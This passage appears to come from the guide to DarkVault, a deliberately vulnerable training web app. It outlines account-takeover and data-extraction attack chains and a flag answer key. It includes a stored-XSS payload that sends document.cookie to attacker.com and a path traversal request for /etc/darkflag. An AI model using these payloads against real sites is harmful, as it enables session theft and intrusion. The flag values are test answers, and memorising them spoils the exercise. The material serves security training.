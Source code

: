 5. **Client-Side Data**:
   - Deploy XSS payload to collect user cookies
   - Hijack sessions to access additional user data

6. **Complete Data Extraction**:
   - Combine all collected data
   - Organize extracted information by sensitivity
   - Create complete data breach report

### User Account Takeover
**Objective**: Complete control of victim accounts

**Combined Attack Chain**:
1. **Information Gathering**:
   - Enumerate users through IDOR at `/user/1`, `/user/2`, etc.
   - Collect usernames for targeted attacks

2. **Password Reset Attack**:
   - Access weak password reset functionality at `/user/forgot-password`
   - Analyze reset token pattern (vulnerable token generation)
   - Predict reset tokens based on username and timestamp
   - Reset victim's password

3. **Session Hijacking**:
   - Identify session fixation vulnerability at `/user/session-fixation`
   - Set victim's session to known value
   - Wait for victim login
   - Hijack authenticated session

4. **XSS-Based Attack**:
   - Deploy stored XSS in message board: `<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`
   - Capture victim's cookies
   - Use cookies to impersonate victims

5. **CSRF Attack**:
   - Create CSRF payload targeting account modification functions
   - Distribute via XSS or social engineering
   - Modify victim's account details

6. **Complete Account Takeover**:
   - Gain access to victim accounts through multiple vectors
   - Change credentials to maintain persistence
   - Extract sensitive information from compromised accounts

## Flag Collection Guide

DarkVault contains several flags hidden throughout the application. Below is a guide to finding all flags:

1. **SQL Injection Flag**: `DARK{sql_m4st3r}`
   - Bypass login with SQL injection
   - Flag appears in session after successful SQL injection

2. **Path Traversal Flag**: `DARK{p4th_tr4v3rs4l_m4st3r}`
   - Access `/api/file?name=../../../etc/darkflag`
   - Flag is contained in the file
